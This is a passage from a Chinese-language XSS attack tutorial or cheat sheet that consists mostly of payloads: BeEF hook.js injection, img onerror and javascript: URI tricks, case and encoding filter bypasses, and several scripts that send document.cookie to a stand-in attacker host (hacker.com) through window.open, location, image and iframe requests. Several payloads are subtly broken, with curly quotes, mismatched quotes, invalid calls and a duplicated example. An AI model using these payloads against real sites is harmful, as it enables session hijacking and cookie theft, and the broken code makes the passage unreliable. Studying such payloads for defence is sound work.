```Javascript
<script src=”http://BeEF_IP:3000/hook.js”></script>
// 结合BeEF收集用户的cookie
```

### 2.3.5 巧用图片标签
```html
<img src=”#” onerror=alert(‘xss’)>
<img src=”javascript:alert(‘xss’);”>
<img src=”http://BeEF_IP:3000/hook.js”></img>
```
### 2.3.5 绕开过滤的脚本
```html
// 大小写<ScrIpt>alert(‘xss’)</SCRipt>
// 字符编码 采用URL、Base64等编码
<a href=”&#106,&#97;”>test</a>
```
### 2.3.6 收集用户cookie
```Javascript
// 打开新窗口并且采用本地cookie访问目标网页。
<script>window.open(“http://www.hacker.com/cookie.php?cookie=”+document.cookie)</script>
<script>document.location(“http://www.hacker.com/cookie.php?cookie=”+document.cookie)</script>
<script>new Image.src=”http://www.hacker.com/cookie.php?cookie=”+document.cookie;</script>
<img src=”http://www.hacker.com/cookie.php?cookie=’+document.cookie”></img>
<iframe src=”http://www.hacker.com/cookie.php?cookie=’+document.cookie”></iframe>
<script>new Image.src=”http://www.hacker.com/cookie.php?cookie=’+document.cookie”;img.width=0;img.height=0;</script>
```
## 2.4 XSS攻击代码出现的场景

- **普通的XSS JavaScript注入**，示例如下：

  ```
  <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
  ```

- **IMG标签XSS使用JavaScript命令**，示例如下：

  ```
  <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
  ```

- **IMG标签无分号无引号**，示例如下：

  ```
  <IMG SRC=javascript:alert(‘XSS’)>
  ```

- **IMG标签大小写不敏感**，示例如下：

  ```
  <IMG SRC=JaVaScRiPt:alert(‘XSS’)>
  ```

- **HTML编码(必须有分号)**，示例如下：
